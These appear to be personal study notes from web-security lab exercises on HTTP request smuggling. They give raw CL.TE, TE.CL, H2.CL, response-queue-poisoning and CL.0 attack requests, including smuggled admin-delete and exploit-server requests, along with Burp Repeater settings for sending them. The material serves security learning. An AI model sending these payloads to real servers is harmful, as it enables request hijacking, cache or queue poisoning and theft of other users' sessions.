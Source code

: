 # 🏴☠ Request Smuggling

* Launch Smuggle Probe and H2 Probe. Might miss CL.0

### CL:TE Diff Response Testing

* Don't count the 0 that ends the chunk in the leading hex number(byte count)

```
POST / HTTP/1.1
Host: 0aff001903b2238cc1550dd0002a001b.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 46
Transfer-Encoding: chunked

b
q=smuggling
0

GET /404 HTTP/1.1
Foo: X
```

### TE:CL Differential Response Testing

* Two Trailing NewLines
* Content-Length: 4 for the initial Request header (assuming two digit hex number payload)
  * disable update content-length in repeater
* Hex number to start POST payload = Following bytes-7
  * States the bytelength of upcoming "chunk"
  * Starting from Following HTTP Method to include the last newline

```
POST / HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

#### Capturing Request in Comment

* Spam requests until you get two normal responses in a row
  * Means request was sent in between
  * Go long in content-length to avoid losing data

### H2 Settings

* Launch H2 Smuggle Probe to scan
  * Won't show up through normal active scan
* Repeater Options disable Update Content Length
* Repeater Options enable Allow HTTP/2 ALPN override
* Inspector -> Request Attributes -> Protocol HTTP/2
* Remove any weird `:HEADER Value` that Burp may have added when testing
* Test full exploit on self, especially if poisoning for XSS
  * Quick refresh and send very necessary

**H2CL**

```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1 
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net 
Content-Length: 5 

x=1
```

**Inspector tab of editing H2 Header for CRLF**

![CRLF Injection in H2C.png](app://local/C:/Users/VictorSemenok/Burping/Attachments/CRLF%20Injection%20in%20H2C.png?1674677441597)

### Response Queue Poisoning

* More cookies
* Repeat the poisoning request until response is interesting (may take spamming)

```
POST / HTTP/2
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net
Cookie: session=aNKjt644Drm0JgFqrdvkYm1yWY3GjLCi
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Transfer-Encoding: chunked
Content-Length: 91

0

GET /404 HTTP/1.1
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net

```

* Also possible in HTTP/2 Headers
  * May break the website formatting? stay frosty\
    ![Request Splitting H2 Headers.png](app://local/C:/Users/VictorSemenok/Burping/Attachments/Request%20Splitting%20H2%20Headers.png?1674683716854)

### CL.0

* Endpoint specific vulnerability
* Send group in sequence, single connection.
* Connection: keep-alive
* Request 1

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0acc000204a8e462c1707b3e00c00090.web-security-academy.net
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acc000204a8e462c1707b3e00c00090.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: Keep-alive
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

* Request 2 is just a valid request
  * may not be necessary during testing?
